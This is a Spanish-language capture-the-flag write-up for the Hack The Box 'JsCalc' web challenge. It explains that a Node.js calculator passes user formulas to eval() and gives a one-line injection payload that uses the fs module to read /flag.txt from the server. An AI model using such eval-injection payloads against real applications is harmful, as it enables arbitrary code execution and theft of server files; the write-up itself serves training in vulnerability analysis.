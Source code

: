 ```yaml
---
title: JsCalc
description: In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 
date: 2024-06-30
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Challenges
tags:
  - hack_the_box
  - rce
  - web_analysis
  - vulnerability_exploitation

---
```

## Web Analysis

La aplicación web permite al usuario ingresar fórmulas matemáticas que luego son evaluadas y devueltas como resultado en pantalla.

![](/assets/img/htb-writeup-jscalc/jscalc1.png)

El archivo comprimido proporcionado, contiene la estructura del entorno Node.js de la calculadora.

```terminal
/home/kali/Documents/htb/challenges/jscalc:-$ unzip jscalc.zip

/home/kali/Documents/htb/challenges/jscalc:-$ tree web_jscalc
web_jscalc
├── build-docker.sh
├── challenge
│   ├── helpers
│   │   └── calculaorHelper.js
│   ├── index.js
│   ├── package.json
│   ├── package-lock.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── favicon.png
│   │   └── js
│   │       └── main.js
│   ├── views
│   │   └── index.html
│   └── yarm.lock
├── config
│   └── supervisord.conf
├── Dockerfile
├── flag.txt
└── supervisord.conf
```

El archivo `calculatorHelper.js` incluye la función vulnerable. La función `eval()` ejecuta dinámicamente cualquier código JavaScript dentro del string, lo que habilita ejecución arbitraria de código. 
* Referencia: [MDN - eval()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

```terminal
/home/kali/Documents/htb/challenges/jscalc:-$ cat web_jscalc/challenge/helperscalculatorHelper.js
module.exports = {
  calculate(formula) {
    try {
      return eval(`(function() { return ${ formula } })()`);
    } catch (e) {
      if (e instanceof SyntaxError) {
        return 'Something went wrong!';
      }
    }
  }
}
```

---
## Vulnerability Exploitation

Node.js incluye el módulo `fs` que permite acceder al sistema de archivos. Este código ejecuta directamente `readFileSync`, accede al archivo `flag.txt` y retorna su contenido como string, explotando exitosamente la vulnerabilidad.

`require('fs').readFileSync('/flag.txt').toString();`

![](/assets/img/htb-writeup-jscalc/jscalc2.png)

> <a href="https://labs.hackthebox.com/achievement/challenge/1521382/551" target="_blank">***Litio7 has successfully solved JsCalc from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
